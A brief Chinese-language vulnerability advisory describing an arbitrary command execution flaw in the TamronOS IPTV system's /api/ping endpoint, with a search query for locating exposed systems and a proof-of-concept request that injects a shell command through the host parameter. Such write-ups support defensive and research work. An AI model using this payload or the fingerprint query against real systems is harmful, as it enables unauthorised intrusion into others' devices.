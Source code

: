 # TamronOS IPTV系统 ping 任意命令执行漏洞

## 漏洞描述

TamronOS IPTV系统 api/ping 存在任意命令执行漏洞，攻击者通过漏洞可以执行任意命令

## 漏洞影响

```
TamronOS IPTV系统
```

## 网络测绘

```
app="TamronOS-IPTV系统"
```

## 漏洞复现

登录页面如下



![](images/202202101926621.png)



## 漏洞POC为



```plain
/api/ping?count=5&host=;id;
```



![](images/202202101927800.png)